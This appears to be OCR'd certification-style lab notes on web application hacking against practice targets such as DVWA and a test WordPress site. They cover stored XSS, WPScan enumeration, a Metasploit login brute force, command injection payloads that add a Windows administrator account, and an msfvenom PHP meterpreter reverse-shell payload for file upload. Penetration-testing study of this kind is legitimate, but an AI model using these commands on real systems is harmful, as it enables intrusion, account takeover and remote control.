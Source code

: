 

                                                                        *HACKING WEB APPLICATIONS*


**Parameter Tampering and XSS**

- Change id parameter in profile to view other profiles.
- For XSS, type the script in comments field in contact page. (This is stored XSS and will be shown to every user who views the contact tab)


**WPScan and Metasploit – Enumerating and Web App Hacking**

- Use ***wpscan --url http://[IP Address of Windows Server 2012]:8080/CEH --enumerate u*** | enumerate user list
- In msfconsole ***use auxiliary/scanner/http/wordpress\_login\_enum***
- Type ***set PASS\_FILE /root/Desktop/Wordlists/Passwords.txt***
- Type ***set RHOSTS [IP Address of Windows Server 2012]***
- Type ***set RPORT 8080***
- Type ***set TARGETURI /CEH/*** or complete URL
- Type ***set USERNAME admin*** and press Enter to set the username as admin.
- Type ***run***
- Use URL **http://[IP Address of Windows Server 2012]:8080/CEH/wp-login.php** to login.


**Remote Command Execution - Exploiting Vulnerability in DVWA**

- <http://10.10.10.12:8080/dvwa>  **| gordonb:abc123**
- Set Security settings to low
- | hostname
- | whoami
- | tasklist
- | dir C:\
- | net user
- | net user <username> /add | add custom user
- | net user <username>
- | net localgroup Administrators <username> /add | add user to admin group


**VEGA -Web Application Audit (Kali)**

- Open from Web application analysis
- Start New Scan
- Enter URL <http://10.10.10.12:8080/dvwa> 
- Select all modules
- Leave rest settings as default and start.


**Acunetix WVS (Windows)**

- Install with password qwerty@1234 and port 13443
- Add target. [http://www.moviescope.com](http://www.moviescope.com/)
- Run Full Scan with OWASP 2013 report.

·

**File Upload Vulnerability – All Levels DVWA Payload Creation**

- ***msfvenom -p php/meterpreter/reverse\_tcp lhost=10.10.10.11 lport=4444 -f raw*** | create a raw php code
- Copy the code in a text file and save as .php
